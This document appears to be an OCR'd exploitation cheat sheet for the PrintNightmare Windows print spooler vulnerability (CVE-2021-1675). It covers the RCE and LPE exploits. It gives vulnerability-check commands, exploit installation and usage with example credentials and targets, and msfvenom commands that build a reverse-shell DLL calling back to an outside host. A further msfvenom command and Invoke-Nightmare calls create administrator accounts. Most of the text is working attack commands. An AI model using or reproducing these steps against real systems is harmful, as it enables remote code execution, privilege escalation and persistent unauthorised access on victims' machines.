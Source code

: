 # RCE Version [Github](https://github.com/cube0x0/CVE-2021-1675)

## Vulnerability Detection
When running:
```bash
rpcdump.py @<VICTIM_IP> | egrep 'MS-RPRN|MS-PAR'
```

*if the computer is vulnerable,* the output should be:
```
Protocol: [MS-PAR]: Print System Asynchronous Remote Protocol 
Protocol: [MS-RPRN]: Print System Remote Protocol
```

## Installation
```bash
pip3 uninstall impacket
git clone https://github.com/cube0x0/impacket
cd impacket
python3 ./setup.py install
```
## Usage
```
usage: CVE-2021-1675.py [-h] [-hashes LMHASH:NTHASH] [-target-ip ip address] [-port [destination port]] target share

CVE-2021-1675 implementation.

positional arguments:
  target                [[domain/]username[:password]@]<targetName or address>
  share                 Path to DLL. Example '\\10.10.10.10\share\evil.dll'

optional arguments:
  -h, --help            show this help message and exit

authentication:
  -hashes LMHASH:NTHASH
                        NTLM hashes, format is LMHASH:NTHASH

connection:
  -target-ip ip address
                        IP Address of the target machine. If omitted it will use whatever was specified as target. This is useful when target is the NetBIOS name
                        and you cannot resolve it
  -port [destination port]
                        Destination port to connect to SMB Server
```
## Example
```bash
CVE-2021-1675.py hackit.local/domain_user:Pass123@192.168.1.10 '\\192.168.1.215\smb\addCube.dll'
CVE-2021-1675.py hackit.local/domain_user:Pass123@192.168.1.10 'C:\addCube.dll'
```

## DLL payloads
### Reverse Shell
```bash
msfvenom -p windows/shell/reverse_tcp LHOST=20.20.20.129 LPORT=9000 -f dll > rev.dll
```
### Adduser Payload
```
msfvenom -p windows/adduser USER=<USERNAME> PASS=<PASSWORD_MATCHING_COPLEXITY> -f dll > adduser.dll
```

---

# LPE Version [Github](https://github.com/calebstewart/CVE-2021-1675)

## Vulnerability Detection
When runnnig:
```shell
REG QUERY "HKLM\Software\Policies\Microsoft\Windows NT\Printers\PointAndPrint"
```
*if the computer is vulnerable,* the output should be:
```
HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows NT\Printers\PointAndPrint
    RestrictDriverInstallationToAdministrators    REG_DWORD    0x0
    NoWarningNoElevationOnInstall    REG_DWORD    0x1
```

*Also,* the print spooler service should running
```shell
gsv spooler
```

## Usage (Creating Local Admin)
```
Import-Module .\cve-2021-1675.ps1
Invoke-Nightmare -DriverName "<ANY_NAME>" -NewUser "<USERNAME>" -NewPassword "<PASSWORD_MATCHING_COPLEXITY>"
```
## Usage (Custom DLL)
```
Import-Module .\cve-2021-1675.ps1
Invoke-Nightmare -DLL "<FULL\PATH\TO\DLL>"
```